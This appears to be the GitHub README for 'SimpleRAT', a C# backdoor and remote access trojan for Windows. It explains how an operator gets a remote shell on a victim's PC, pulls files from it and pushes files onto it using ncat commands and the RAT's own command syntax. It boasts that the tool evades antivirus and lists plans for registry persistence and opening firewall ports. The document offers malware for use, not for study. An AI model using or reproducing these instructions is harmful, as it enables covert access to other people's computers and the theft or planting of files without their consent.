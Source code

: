 # SimpleRAT

Small RAT/Backdoor written fully in C#.
After installation and launch, listens on port specified in JSON configuration. After successfull connection gives remote shell.
Developed for Windows.

# What RAT can
1. After connection on specified port (provided in JSON file, which can be changed as you wish), gives reverse shell.
2. Is able to download any files from victim's PC on specified port (provided in JSON file) and upload files on victim PC, no need for server setup or anything, only netcat on your side and launched RAT on victim's side :)
### How to download files:
1. Put netcat on listening state (ncat -v -l -p "port for file download from JSON" > "file name with extension that you want to download")

Example: ncat -v -l -p 8889 > helloworld2.exe

NOTE: I advice you to use "-v" for more verbose output

2. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

3. Check if reverse shell is working (cd, dir)

5. Currently RAT has it's own command interpreter which will listen to commands from your PC, these type of commands begin with "RAT".

For file download command is - "RAT download file -p <windows/path/to/file/withextension>"
  
Process:
![RAT-guide](https://user-images.githubusercontent.com/53906830/109512165-1aee9280-7aa4-11eb-891f-89ff993b7dd4.png)

### How to upload files:
1. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

2. Check if reverse shell is working (cd, dir)

3. Put RAT in listenning state by executing:
RAT upload file -p <path/to/file.exe> -s <size of file (bytes)>

Example: RAT upload file -p C:\Users\someuser\checkme\ConsoleApp4.exe -s 4096

4. Send file through netcat on main port of your RAT

Example: ncat 192.168.88.230 8888 --send-only < ConsoleApp4.exe

Process:
![howto-upload](https://user-images.githubusercontent.com/53906830/109667659-a9304a80-7b70-11eb-879b-0230e0567f52.png)

Currently RAT is FUD as it is small and simple, without any specific features.

TODO/Plans: 

1. Merge JSON configuration into exe file, not to download anything additionally;
2. Create key in registry for self startup;
3. Open ports required for communications (for main connection, for file download, etc).
